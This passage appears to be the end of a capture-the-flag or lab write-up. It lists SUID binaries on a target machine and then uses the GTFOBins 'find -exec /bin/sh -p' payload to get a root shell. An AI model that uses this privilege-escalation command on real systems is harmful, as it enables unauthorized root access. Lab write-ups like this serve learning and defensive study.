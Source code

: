 ```
/usr/bin/passwd
/usr/bin/traceroute6.iputils 
/usr/bin/sudo
/usr/bin/newgrp
/snap/core/8689/bin/mount 
/snap/core/8689/bin/ping
/snap/core/8689/bin/ping6 
/snap/core/8689/bin/su  
/snap/core/8689/bin/umount  
/snap/core/8689/usr/bin/chfn 
/snap/core/8689/usr/bin/chsh   
/snap/core/8689/usr/bin/gpasswd  
/snap/core/8689/usr/bin/newgrp  
/snap/core/8689/usr/bin/passwd  
/snap/core/8689/usr/bin/sudo 
/snap/core/8689/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
/snap/core/8689/usr/lib/openssh/ssh-keysign 
/snap/core/8689/usr/lib/snapd/snap-confine 
/snap/core/8689/usr/sbin/pppd
/snap/core/9436/bin/mount
```

![image](https://user-images.githubusercontent.com/87468669/195772368-48958c06-b1fe-4d01-8631-803b050c4a93.png)

we have an SUID `/usr/bin/find` let's abuse the bin and get root. From gtfobins we can see the payload to use in abusing the bin.

![image](https://user-images.githubusercontent.com/87468669/195772606-9696048f-d01a-455b-95d6-d6a5947a5a8d.png)

```
/usr/bin/find . -exec /bin/sh -p \; -quit
```

![image](https://user-images.githubusercontent.com/87468669/195772861-5ab06ee1-26c1-4b01-b300-6ee02f14c8c7.png)

We are root!. hope you had fun😉.
